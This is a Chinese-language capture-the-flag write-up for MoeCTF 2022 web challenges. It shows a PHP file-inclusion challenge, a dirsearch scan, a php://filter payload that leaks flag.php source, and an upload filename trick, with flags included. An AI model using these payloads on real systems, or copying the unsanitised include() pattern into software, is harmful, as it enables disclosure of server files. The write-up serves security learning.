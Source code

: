 # MoeCTF 2022

## Web

### baby\_file

#### 题目

```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
?>
```

#### 解题

这题是简单的文件包含，先用 dirsearch 扫描一下。

```bash
$ python dirsearch.py -u http://node2.anna.nssctf.cn:28169/
```

可以扫描到 `/flag.php` ，通过构造以下 Payload

```url
file=php://filter/read=convert.base64-encode/resource=flag.php
```

可以获得到 `flag.php` 的源码

```php
<?php
Hey hey, reach the highest city in the world! Actually I am ikun!!;
NSSCTF{b3333432-7dff-4ca8-b6f4-cd4bd5fc6688};
?>
```

### ezhtml

通过 `右键 - 查看网页源代码` 寻找答案没有结果，发现底下有个 `evil.js` ，访问该文件可以得到 flag 力！

### what are y0u uploading？

随便提交一个图片可以得到以下回显

```html
文件上传成功！filename：fea5445634569c851f2933f11259cc92.png
我不想要这个特洛伊文件，给我一个f1ag.php 我就给你flag!
```

通过修改 Request 中的 `filename` 为 `f1ag.php` 即可得到 flag 了。

<figure><img src=".gitbook/assets/what_are_y0u_uploading？-1.png" alt=""><figcaption></figcaption></figure>
